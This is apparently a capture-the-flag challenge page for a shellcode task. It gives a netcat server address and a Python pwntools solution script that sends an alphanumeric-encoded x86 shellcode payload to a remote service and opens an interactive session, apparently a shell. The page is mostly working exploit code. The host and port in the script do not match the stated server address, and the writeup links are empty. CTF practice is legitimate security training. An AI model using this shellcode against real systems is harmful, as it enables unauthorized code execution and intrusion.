 #### Goals
 * Try to find the flag

#### Server Address
 * nc pwn.sniperoj.com 20004

#### Solution
```python

#!/usr/bin/env python

from pwn import *

# Io = process("./shellcode")
Io = remote("pwn.sniperoj.cn", 30010)
shellcode = "TX-BTUU-BTUU-BTUUP\%IIII%0000-&%%%-%%%%-%%%%P%IIII%0000-+%%%-+%%%-*%%%P%IIII%0000-1(^e-1'^e-0'`gP%IIII%0000-3F52-3E42-2E42P%IIII%0000-FF/3-FE/2-EE.2P%IIII%0000-oQ:3-pQ:2-qQ:2P%IIII%0000-EgW^-EgW_-EhY`PPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPP"
payload = shellcode
Io.sendline(payload)
Io.interactive()
```

#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()

